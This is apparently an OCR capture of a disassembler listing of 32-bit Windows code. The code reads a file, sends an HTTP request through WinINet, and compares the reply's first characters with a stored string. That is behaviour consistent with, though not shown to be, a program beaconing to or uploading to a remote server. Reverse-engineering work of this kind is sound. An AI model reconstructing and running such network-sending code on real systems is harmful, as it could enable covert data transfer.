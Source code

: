                  f8 ff ff
        0040172b ff 75 f4        PUSH       dword ptr [EBP + local_10]                       DWORD nNumberOfBytesToRead for R
        0040172e 50              PUSH       EAX                                              LPVOID lpBuffer for ReadFile
        0040172f ff 75 ec        PUSH       dword ptr [EBP + local_18]                       HANDLE hFile for ReadFile
        00401732 ff 15 10        CALL       dword ptr [->KERNEL32.DLL::ReadFile]             = 00002282
                 20 40 00
        00401738 85 c0           TEST       EAX,EAX
        0040173a 0f 84 9c        JZ         LAB_00401adc
                 03 00 00
                             LAB_00401740                                    XREF[1]:     00401a76(j)
        00401740 8d 85 70        LEA        EAX=>local_794,[EBP + 0xfffff870]
                 f8 ff ff
        00401746 50              PUSH       EAX                                              char * _Str for strlen
        00401747 e8 94 04        CALL       MSVCRT.DLL::strlen                               size_t strlen(char * _Str)
                 00 00
        0040174c 59              POP        ECX
        0040174d 50              PUSH       EAX
        0040174e 8d 85 70        LEA        EAX=>local_794,[EBP + 0xfffff870]
                 f8 ff ff
        00401754 50              PUSH       EAX
        00401755 53              PUSH       EBX
        00401756 53              PUSH       EBX
        00401757 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        0040175a ff 15 c8        CALL       dword ptr [->WININET.DLL::HttpSendRequestA]      = 0000231c
                 20 40 00
        00401760 85 c0           TEST       EAX,EAX
        00401762 0f 84 74        JZ         LAB_00401adc
                 03 00 00
        00401768 8d 45 d0        LEA        EAX=>local_34,[EBP + -0x30]
        0040176b 8b 75 f0        MOV        ESI,dword ptr [EBP + local_14]
        0040176e 50              PUSH       EAX
        0040176f 8d 85 70        LEA        EAX=>local_b94,[EBP + 0xfffff470]
                 f4 ff ff
        00401775 68 ff 03        PUSH       0x3ff
                 00 00
        0040177a 50              PUSH       EAX
        0040177b 8d 85 70        LEA        EAX=>local_1394,[EBP + 0xffffec70]
                 ec ff ff
        00401781 8b ce           MOV        ECX,ESI
        00401783 50              PUSH       EAX
        00401784 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        00401787 e8 f0 f8        CALL       FUN_0040107c                                     undefined4 FUN_0040107c(undefine
                 ff ff
        0040178c 84 c0           TEST       AL,AL
        0040178e 0f 84 48        JZ         LAB_00401adc
                 03 00 00
        00401794 8b 3d a8        MOV        EDI,dword ptr [->MSVCRT.DLL::_strnicmp]          = 00002558
                 20 40 00
        0040179a 6a 04           PUSH       0x4                                              size_t _MaxCount for _strnicmp
        0040179c 8d 85 70        LEA        EAX=>local_b94,[EBP + 0xfffff470]
                 f4 ff ff
        004017a2 68 d8 31        PUSH       _Str2_004031d8                                   char * _Str2 for _strnicmp
                 40 00
        004017a7 50              PUSH       EAX                                              char * _Str1 for _strnicmp
        004017a8 ff d7           CALL       EDI=>MSVCRT.DLL::_strnicmp